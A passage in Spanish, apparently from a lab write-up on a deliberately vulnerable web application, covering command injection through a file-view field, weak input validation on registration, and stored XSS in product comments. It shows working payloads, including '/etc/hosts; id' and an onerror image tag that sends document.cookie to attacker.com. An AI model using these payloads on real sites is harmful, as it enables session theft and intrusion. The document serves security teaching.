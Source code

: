    Esta entrada muestra el contenido del archivo de contraseñas.

2. **Ejecución de comandos adicionales:**
   - Entrada: `/etc/hosts; id`
   
   Esta entrada muestra el archivo hosts y luego ejecuta el comando id.

3. **Acceso a archivos de configuración:**
   - Entrada: `app.py`
   
   Esta entrada muestra el código fuente de la aplicación.

## 3. Validación de Entrada Incorrecta

La aplicación contiene múltiples puntos con validación incorrecta:

### 3.1. Formulario de Registro (`/register`)

**Vulnerabilidad:** No hay validación adecuada para longitud, formato o contenido de los campos.

**Explotación:**

1. **Desbordamiento de entrada:**
   - Nombre de usuario: Un string extremadamente largo (>1000 caracteres)
   
   Esto puede causar problemas de almacenamiento o visualización.

2. **Inyección XSS:**
   - Nombre de usuario: `<script>alert('XSS')</script>`
   
   Esto puede insertar un script que se ejecute cuando se muestre el nombre de usuario.

3. **Formato de email no válido:**
   - Email: `not_an_email`
   
   Aunque el navegador tiene validación básica, esta puede ser evitada manipulando la petición HTTP directamente.

### 3.2. Comentarios de Productos (`/comment/add`)

**Vulnerabilidad:** No hay sanitización ni filtrado de HTML en los comentarios.

**Explotación:**

1. **XSS persistente:**
   - Comentario: `<script>alert(document.cookie)</script>`
   
   Este script se ejecutará cada vez que alguien vea la página del producto.

2. **Robo de cookies:**
   - Comentario: `<img src="x" onerror="fetch('https://attacker.com/steal?cookie='+document.cookie)">`
   
   Este código enviará las cookies a un servidor controlado por el atacante.

## 4. SSRF (Server-Side Request Forgery)

La aplicación contiene dos puntos vulnerables a SSRF:
